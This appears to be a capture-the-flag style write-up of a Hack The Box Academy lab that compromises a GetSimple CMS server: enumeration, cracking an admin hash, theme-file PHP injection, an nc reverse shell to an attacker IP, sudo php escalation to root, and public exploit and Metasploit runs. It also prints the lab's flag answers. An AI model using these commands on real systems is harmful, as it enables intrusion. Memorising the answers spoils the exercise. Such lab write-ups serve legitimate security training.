





# Knowledge Check
## Tips
* Enumeration/Scanning with `nmap`
* Web Footprinting with `whatweb` and `gobuster`
* Search for public exploits with `searchsploit` or Google
* Enumeration of the file system for example with LinPEAS

The machine has two ways to escalated privileges. Also there is a manual & Metasploit approach to get a shell on the system.

## Enumeration
### Port Scanning
The system has two open ports. 22 (ssh) and 80 (http):
```
┌──(kali㉿kali)-[~/Desktop/hackthebox/htb_academy/knowlegde_check]
└─$ nmap -oN nmap/basic $IP
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-26 10:46 EDT
Nmap scan report for 10.129.42.107
Host is up (0.032s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 13.65 seconds
                                                                                                                                                           
┌──(kali㉿kali)-[~/Desktop/hackthebox/htb_academy/knowlegde_check]
└─$ nmap -sV -sC -oN nmap/nmap $IP
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-26 10:46 EDT
Nmap scan report for 10.129.42.107
Host is up (0.036s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 4c:73:a0:25:f5:fe:81:7b:82:2b:36:49:a5:4d:c8:5e (RSA)
|   256 e1:c0:56:d0:52:04:2f:3c:ac:9a:e7:b1:79:2b:bb:13 (ECDSA)
|_  256 52:31:47:14:0d:c3:8e:15:73:e3:c4:24:a2:3a:12:77 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Welcome to GetSimple! - gettingstarted
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/admin/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.72 seconds
                                                                                                                                                           
┌──(kali㉿kali)-[~/Desktop/hackthebox/htb_academy/knowlegde_check]
└─$
```

### HTTP
If we access the website we get to see the following:


The server runs a GetSimple CMS system. But on the starting page we can't find any interesting suff. As well there is no version shown.

#### Directory enumeration
Enumerating the web directories reveals some interesting ones:
```
┌──(kali㉿kali)-[~/Desktop/hackthebox/htb_academy/knowlegde_check]
└─$ feroxbuster --url http://gettingstarted.htb --depth 2 --wordlist /usr/share/seclists/Discovery/Web-Content/common.txt

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://gettingstarted.htb
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/common.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 2
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        9l       31w      280c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET        9l       28w      283c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET        4l       13w      275c http://gettingstarted.htb/theme/Innovation/assets/images/break.png
301      GET        9l       28w      324c http://gettingstarted.htb/admin => http://gettingstarted.htb/admin/
301      GET        9l       28w      326c http://gettingstarted.htb/backups => http://gettingstarted.htb/backups/
301      GET        9l       28w      323c http://gettingstarted.htb/data => http://gettingstarted.htb/data/
200      GET       13l      107w     7019c http://gettingstarted.htb/theme/Innovation/assets/js/dd_belatedpng.js
200      GET      327l      770w     7293c http://gettingstarted.htb/theme/Innovation/style.css
200      GET        7l       27w     1980c http://gettingstarted.htb/theme/Innovation/assets/images/share.png
200      GET      226l      835w     7067c http://gettingstarted.htb/theme/Innovation/assets/css/reset.css
200      GET      152l      504w     5485c http://gettingstarted.htb/
200      GET      152l      504w     5485c http://gettingstarted.htb/index.php
301      GET        9l       28w      326c http://gettingstarted.htb/plugins => http://gettingstarted.htb/plugins/
500      GET        0l        0w        0c http://gettingstarted.htb/plugins/InnovationPlugin.php
500      GET        0l        0w        0c http://gettingstarted.htb/plugins/anonymous_data.php
200      GET        2l        4w       32c http://gettingstarted.htb/robots.txt
200      GET        2l        8w      431c http://gettingstarted.htb/sitemap.xml
200      GET       31l       94w      828c http://gettingstarted.htb/admin/humans.txt
200      GET       29l       98w      787c http://gettingstarted.htb/admin/template/ie6.css
200      GET       61l      177w     2623c http://gettingstarted.htb/admin/index.php
200      GET       64l      194w     2731c http://gettingstarted.htb/admin/resetpassword.php
200      GET      608l     1464w    19909c http://gettingstarted.htb/admin/template/js/jquery.getsimple.js
301      GET        9l       28w      324c http://gettingstarted.htb/theme => http://gettingstarted.htb/theme/
200      GET     2112l     5046w    42522c http://gettingstarted.htb/admin/template/style.php
301      GET        9l       28w      329c http://gettingstarted.htb/admin/lang => http://gettingstarted.htb/admin/lang/
301      GET        9l       28w      328c http://gettingstarted.htb/admin/inc => http://gettingstarted.htb/admin/inc/
301      GET        9l       28w      333c http://gettingstarted.htb/admin/template => http://gettingstarted.htb/admin/template/
[####################] - 11s     9533/9533    0s      found:25      errors:0      
[####################] - 9s      4724/4724    534/s   http://gettingstarted.htb/ 
[####################] - 10s     4724/4724    485/s   http://gettingstarted.htb/admin/ 
[####################] - 2s      4724/4724    1972/s  http://gettingstarted.htb/backups/ => Directory listing
[####################] - 2s      4724/4724    2715/s  http://gettingstarted.htb/data/ => Directory listing
[####################] - 2s      4724/4724    2676/s  http://gettingstarted.htb/theme/ => Directory listing
[####################] - 0s      4724/4724    15045/s http://gettingstarted.htb/plugins/ => Directory listing                                                                                                                                                                                                         
┌──(kali㉿kali)-[~/Desktop/hackthebox/htb_academy/knowlegde_check]
└─$ 
```
Those directories sound interesting:
* `admin/`
* `backups/`
* `data/`
* `plugins/`

##### admin/
The admin directory directs us to a login page:


As well, we can find some user information in a file called `admin/humans.txt`. But this seems like information of some workers from the CMS software itself.

##### backups/
This directory has some subfolders, but they are empty.

##### data/
In here we can find the file `data/users/admin.xml`:
```xml
<item>
    <USR>admin</USR>
    <NAME/>
    <PWD>d033e22ae348aeb5660fc2140aec35850c4da997</PWD>
    <EMAIL>admin@gettingstarted.com</EMAIL>
    <HTMLEDITOR>1</HTMLEDITOR>
    <TIMEZONE/>
    <LANG>en_US</LANG>
</item>
```

The password seems to be hashed. If we try to crack it with for example [CrackStation](https://crackstation.net/), we find out that the algorithm is SHA-1 and the password is `admin`.

So the credentials are `admin:admin`.

But before we log in, let's enumerate a bit further.

Another file `data/other/authorization.xml` reveals an API key:
```xml
<item>
    <apikey>4f399dc72ff8e619e327800f851e9986</apikey>
</item>
```

And in the file `data/cache/2a4c6447379fba09620ba05582eb61af.txt` we can find the version of the application:
```
{"status":"0","latest":"3.3.16","your_version":"3.3.15","message":"You have an old version - please upgrade"}
```

##### plugins/
There are two plugins installed:
* InnovationPlugin
* anonymous_data

But at this point we can't do anything with this information.

#### Public exploits
Those exploits seems promising:
```
GetSimple CMS v3.3.16 - Remote Code Execution (RCE)                                                                      | php/webapps/51475.py
GetSimpleCMS - Unauthenticated Remote Code Execution (Metasploit)                                                        | php/remote/46880.rb

```

## Exploitation
Before we use a public exploit, we will check out the admin interface. If we login with the obtained credentials `admin:admin` we find the following overview:


If we click a bit through this, we find the ability to edit a theme:


In here we edit the raw .php file `theme/Innovation/template.php`. Maybe we could abuse this to run a RCE. To test we comment out the first line, add `system('id');` and save the file:


Now we can `curl` the file to test the RCE:
```
┌──(kali㉿kali)-[~/Desktop/hackthebox/htb_academy]
└─$ curl http://gettingstarted.htb/theme/Innovation/template.php
uid=33(www-data) gid=33(www-data) groups=33(www-data)
                                                                                                                                                           
┌──(kali㉿kali)-[~/Desktop/hackthebox/htb_academy]
└─$ 
```

It was successful!

We can now replace our test line with a reverse shell:
```
system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.21 8081 >/tmp/f');
```

Save the file, start a listener and `curl` it again gives us an shell:
```
┌──(kali㉿kali)-[~/Desktop/hackthebox/htb_academy]
└─$ nc -lnvp 8081
Listening on 0.0.0.0 8081
Connection received on 10.129.42.107 36050
sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ 
```

### Stabilizing the shell
```
$ python --version
sh: 4: python: not found
$ python3 --version
Python 3.8.5
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@gettingstarted:/var/www/html/theme/Innovation$ ^Z
zsh: suspended  nc -lnvp 8081
                                                                                                                                                           
┌──(kali㉿kali)-[~/Desktop/hackthebox/htb_academy]
└─$ stty size                                                                                                                                    148 ⨯ 1 ⚙
83 155
                                                                                                                                                           
┌──(kali㉿kali)-[~/Desktop/hackthebox/htb_academy]
└─$ stty raw -echo; fg                                                                                                                                 1 ⚙
[1]  + continued  nc -lnvp 8081

www-data@gettingstarted:/var/www/html/theme/Innovation$ 
www-data@gettingstarted:/var/www/html/theme/Innovation$ export TERM=xterm-256color
www-data@gettingstarted:/var/www/html/theme/Innovation$ stty rows 83 columns 155 
www-data@gettingstarted:/var/www/html/theme/Innovation$ 
www-data@gettingstarted:/var/www/html/theme/Innovation$ 
```

### User flag
In the `/home` folder, we can find a home directory of a user called `mrb3n`. In here is the user flag:
```
www-data@gettingstarted:/var/www/html/theme/Innovation$ cd /home/
www-data@gettingstarted:/home$ ls -al 
total 12
drwxr-xr-x  3 root  root  4096 Feb  9  2021 .
drwxr-xr-x 20 root  root  4096 Feb  9  2021 ..
drwxr-xr-x  3 mrb3n mrb3n 4096 May  7  2021 mrb3n
www-data@gettingstarted:/home$ cd mrb3n/
www-data@gettingstarted:/home/mrb3n$ ls -al 
total 40
drwxr-xr-x 3 mrb3n mrb3n  4096 May  7  2021 .
drwxr-xr-x 3 root  root   4096 Feb  9  2021 ..
lrwxrwxrwx 1 mrb3n mrb3n     9 Feb  9  2021 .bash_history -> /dev/null
-rw-r--r-- 1 mrb3n mrb3n   220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 mrb3n mrb3n  3771 Feb 25  2020 .bashrc
drwx------ 2 mrb3n mrb3n  4096 Feb  9  2021 .cache
-rw-r--r-- 1 mrb3n mrb3n   807 Feb 25  2020 .profile
-rw-r--r-- 1 mrb3n mrb3n     0 Feb  9  2021 .sudo_as_admin_successful
-rw------- 1 mrb3n mrb3n 10332 May  7  2021 .viminfo
-rw-rw-r-- 1 mrb3n mrb3n    33 Feb 16  2021 user.txt
www-data@gettingstarted:/home/mrb3n$ cat user.txt 
7002d65b149b0a4d19132a66feed21d8
www-data@gettingstarted:/home/mrb3n$ 
```

## Privilege escalation
### sudo
If we take a look at the sudo rights of the `www-data` user we can find no password rights to execute php:
```
www-data@gettingstarted:/home/mrb3n$ sudo -l
Matching Defaults entries for www-data on gettingstarted:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on gettingstarted:
    (ALL : ALL) NOPASSWD: /usr/bin/php
www-data@gettingstarted:/home/mrb3n$ 
```

With that we can easily escalate our rights with the following payload (https://gtfobins.github.io/gtfobins/php/#sudo):
```
www-data@gettingstarted:/home/mrb3n$ export CMD="/bin/bash"
www-data@gettingstarted:/home/mrb3n$ sudo php -r "system('$CMD');"
root@gettingstarted:/home/mrb3n# id
uid=0(root) gid=0(root) groups=0(root)
root@gettingstarted:/home/mrb3n# 
```

### User mrb3n
If we inspect some files of the GetSimple application, we can find a password in the file `/var/www/html/gsconfig.php`:
```php

[...]

# Extra salt to secure your password with. Default is empty for backwards compatibility.
#define('GSLOGINSALT', 'your_unique_phrase');
#define('GSLOGINSALT', 'P@ssw0rd');

[...]

```
Such a simple password could also be brute forced easily.

Using that password we can `su` into the user `mrb3n`:
```
www-data@gettingstarted:/var/www/html$ su mrb3n
Password: 
mrb3n@gettingstarted:/var/www/html$ cd /home/mrb3n/
mrb3n@gettingstarted:~$ id
uid=1000(mrb3n) gid=1000(mrb3n) groups=1000(mrb3n),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd)
mrb3n@gettingstarted:~$ 
```

That user has some interesting sudo rights as well:
```
mrb3n@gettingstarted:~$ Matching Defaults entries for mrb3n on gettingstarted:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mrb3n may run the following commands on gettingstarted:
    (ALL : ALL) ALL

mrb3n@gettingstarted:~$
```

That means we can execute everything with privileged rights. To become root we can just enter:
```
mrb3n@gettingstarted:~$ sudo -i
root@gettingstarted:~# id
uid=0(root) gid=0(root) groups=0(root)
root@gettingstarted:~# 
```

### Root flag
With the root privileges, we can read out the root flag:
```
root@gettingstarted:/home/mrb3n# cd /root/
root@gettingstarted:~# ls -al 
total 32
drwx------  4 root root 4096 May  7  2021 .
drwxr-xr-x 20 root root 4096 Feb  9  2021 ..
lrwxrwxrwx  1 root root    9 Feb  9  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
drwxr-xr-x  3 root root 4096 Feb  9  2021 .local
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
-rw-------  1 root root 1663 May  7  2021 .viminfo
-rw-r--r--  1 root root   33 Feb 16  2021 root.txt
drwxr-xr-x  3 root root 4096 Feb  9  2021 snap
root@gettingstarted:~# cat root.txt 
f1fba6e9f71efb2630e6e34da6387842
root@gettingstarted:~# 
```

## Using public expolits
As mentioned before, there a two interesting public exploits. Those exploits create an unauthenticated RCE, since we were using an authenticated one.

To do so they use the api key that we found in the enumeration and the existing username `admin` to create a valid session token cookie. A pretty good explanation of the exploit can be found [here](https://www.youtube.com/watch?v=lon1uAvjdGU).

We can now either use the exploit `php/webapps/51475.py`:
```
┌──(kali㉿kali)-[~]
└─$ python /usr/share/exploitdb/exploits/php/webapps/51475.py gettingstarted.htb / 10.10.14.21:8081 admin
/usr/share/exploitdb/exploits/php/webapps/51475.py:16: DeprecationWarning: 'telnetlib' is deprecated and slated for removal in Python 3.13
  import telnetlib

 CCC V     V EEEE      22   000   22   22      4  4  11  5555 4  4 4  4
C    V     V E        2  2 0  00 2  2 2  2     4  4 111  5    4  4 4  4
C     V   V  EEE  ---   2  0 0 0   2    2  --- 4444  11  555  4444 4444
C      V V   E         2   00  0  2    2          4  11     5    4    4
 CCC    V    EEEE     2222  000  2222 2222        4 11l1 555     4    4
 
[+] the version 3.3.15 is vulnrable to CVE-2022-41544
[+] apikey obtained 4f399dc72ff8e619e327800f851e9986
[+] csrf token obtained
[+] Shell uploaded successfully!
[+] Webshell trigged successfully!
                                                                                                                                                           
┌──(kali㉿kali)-[~]
└─$ 
```

Or the Metasploit module:
```
msf6 > search getsimple

Matching Modules
================

   #  Name                                              Disclosure Date  Rank       Check  Description
   -  ----                                              ---------------  ----       -----  -----------
   0  exploit/unix/webapp/get_simple_cms_upload_exec    2014-01-04       excellent  Yes    GetSimpleCMS PHP File Upload Vulnerability
   1  exploit/multi/http/getsimplecms_unauth_code_exec  2019-04-28       excellent  Yes    GetSimpleCMS Unauthenticated RCE


Interact with a module by name or index. For example info 1, use 1 or use exploit/multi/http/getsimplecms_unauth_code_exec

msf6 > use 1
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(multi/http/getsimplecms_unauth_code_exec) > show options

Module options (exploit/multi/http/getsimplecms_unauth_code_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the cms
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.0.2.15        yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   GetSimpleCMS 3.3.15 and before


View the full module info with the info, or info -d command.

msf6 exploit(multi/http/getsimplecms_unauth_code_exec) > set RHOSTS gettingstarted.htb
RHOSTS => gettingstarted.htb
msf6 exploit(multi/http/getsimplecms_unauth_code_exec) > run

[*] Started reverse TCP handler on 10.10.14.21:4444 
[*] Sending stage (39927 bytes) to 10.129.42.107
[*] Meterpreter session 1 opened (10.10.14.21:4444 -> 10.129.42.107:59896) at 2023-10-26 13:39:43 -0400

meterpreter > shell
Process 6618 created.
Channel 0 created.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```
The module gets the username by itself from the user file that we found earlier.


## Questions
Spawn the target, gain a foothold and submit the contents of the user.txt flag.
```
> 7002d65b149b0a4d19132a66feed21d8
```

After obtaining a foothold on the target, escalate privileges to root and submit the contents of the root.txt flag.
```
> f1fba6e9f71efb2630e6e34da6387842
```